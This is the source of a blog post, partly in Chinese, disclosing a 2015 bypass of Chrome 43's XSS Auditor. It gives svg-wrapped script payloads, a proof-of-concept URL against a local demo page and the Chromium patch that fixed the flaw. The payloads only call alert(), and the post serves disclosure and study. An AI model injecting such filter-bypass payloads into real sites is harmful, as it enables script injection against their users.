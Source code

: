 ```yaml
---
layout: post
title: Google Chrome Anti-XSS Filter Bypass
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### First

众所周知Chrome浏览器的Xss Filter是基于模糊匹配敏感关键字的方式进行拦截外部JavaScript脚本注入的，然而可以通过svg标签绕过Xss Filter.

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/ysao8.png">

#### Details

	Affected Products:
	Google Chrome 43.0.2357.124 m (letest stable version)
	
	Discovery Date:
	16-06-15
	
	Payload:
	<svg><script>/<1/>alert()</script></svg>
	<svg><script>0<1>alert(document.domain)</script></svg>

#### POC

`OSX & Chrome 43.0.2357.65`

	http://127.0.0.1/demo.php?xss=<svg><script>/<1/>alert(document.domain)</script></svg>

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/4rywe7.png">

> 13年Gainover也分享过一个svg标签Bypass Chrome Xss Filter的Payload:`<svg><script xlink:href=data:,alert(1)></script></svg>`现已失效.

#### Patch

	Index: Source/core/html/parser/XSSAuditor.cppt a/Source/core/html/parser/XSSAuditor.cpp b/Source/core/html/parser/XSSAuditor.cpp
	index a1e1852201d23ac858c3b5065a2e26f52d128f4d..e73259145366c12c821a710fe83d3637529478ee 100644
	--- a/Source/core/html/parser/XSSAuditor.cpp
	+++ b/Source/core/html/parser/XSSAuditor.cpp
	@@ -471,15 +471,18 @@ bool XSSAuditor::filterCharacterToken(const FilterTokenRequest& request)
	if (m_state == PermittingAdjacentCharacterTokens)
	     return false;
 
	-    if ((m_state == SuppressingAdjacentCharacterTokens)
	-        || (m_scriptTagFoundInRequest && isContainedInRequest(canonicalizedSnippetForJavaScript(request)))) {
	+    if (m_state == FilteringTokens && m_scriptTagFoundInRequest) {
	+        String snippet = canonicalizedSnippetForJavaScript(request);
	+        if (isContainedInRequest(snippet))
	+            m_state = SuppressingAdjacentCharacterTokens;
	+        else if (!snippet.isEmpty())
	+            m_state = PermittingAdjacentCharacterTokens;
	+    }
	+    if (m_state == SuppressingAdjacentCharacterTokens) {
         request.token.eraseCharacters();
         request.token.appendToCharacter(' '); // Technically, character tokens can't be empty.
	-        m_state = SuppressingAdjacentCharacterTokens;
         return true;
     }
	-
	-    m_state = PermittingAdjacentCharacterTokens;
     return false;
	 }

#### Other

* <a target="_blank" href="http://vulnerable.info/browsers/bypassing-chromes-anti-xss-filter/">Bypassing Chrome’s Anti-XSS Filter</a>

* <a target="_blank" href="https://codereview.chromium.org/1187843005/">Issue 1187843005: XSSAuditor: Dont give a pass to subsequent script blocks if first one is empty. (Closed)</a>
